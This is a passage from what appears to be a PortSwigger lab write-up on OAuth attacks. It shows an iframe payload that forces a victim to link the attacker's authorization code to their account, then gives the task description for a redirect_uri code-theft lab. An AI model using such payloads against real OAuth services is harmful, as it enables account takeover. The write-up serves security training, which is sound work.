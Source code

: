Create an iframe for the victim to access this link:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
<iframe src="https://0a0200d703e9d1e08553857b002e00df.web-security-academy.net/oauth-linking?code=jETtPOj5DHmBoJt_E3Po0I2PQEndgDoRhuFexNBuDpt"></iframe>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/7564d7d968ece91ea0623bde8f3c1b2b.png)

Then click “Log in with social media” and you will log in as the administrator:

![img](media/f8400aa7d71e5f966b5367f9a2853d9b.png)


## OAuth account hijacking via redirect_uri

This lab uses an OAuth service to allow users to log in with their social media account. A misconfiguration by the OAuth provider makes it possible for an attacker to steal authorization codes associated with other users' accounts.

To solve the lab, steal an authorization code associated with the admin user, then use it to access their account and delete Carlos.

The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

You can log in with your own social media account using the following credentials: wiener:peter.

https://portswigger.net/web-security/oauth

---------------------------------------------

References: 

- https://portswigger.net/web-security/oauth
